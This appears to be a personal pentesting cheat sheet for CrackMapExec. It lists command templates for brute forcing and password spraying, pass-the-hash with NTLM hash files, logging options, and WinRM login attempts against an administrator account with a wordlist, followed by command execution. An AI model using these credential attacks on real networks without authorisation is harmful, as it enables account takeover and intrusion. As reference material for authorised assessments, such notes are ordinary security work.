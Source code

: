 https://www.crackmapexec.wiki/
CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.
# Brute Forcing & Password Spraying
```bash
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

# without bruteforce
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --no-bruteforce 
	# user1 -> pass1
	# user2 -> pass2
```
`--continue-on-success` flag will continue spraying even after a valid password is found
## Pass-the-hash
```bash
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
```
# logi
* using the `cme.con`f file, this will log everything
	* `log_mode=True`
	* `cat ~/.cme/logs/full-log_....log`
* using the option `--log /tmp/my/filename.log` file , this will log only the current command
* both at the same time

# Modules
# ftp (T:21)
# ssh (T:22)
# ldap (T:389)
# smb (t:445)
# mssql (T:1433)
# rdp (t:3389)
# WinRM (T:5985/5986)
```bash
# Bruteforce 
$ crackmapexec winrm <IP> -u administrator -p /usr/share/wordlist/metasploit/common_passwords.txt
# logowanie jako użytkownik 
$ crackmapexec winrm <IP> -u administrator -p tinkerbel -x "whoami"
```

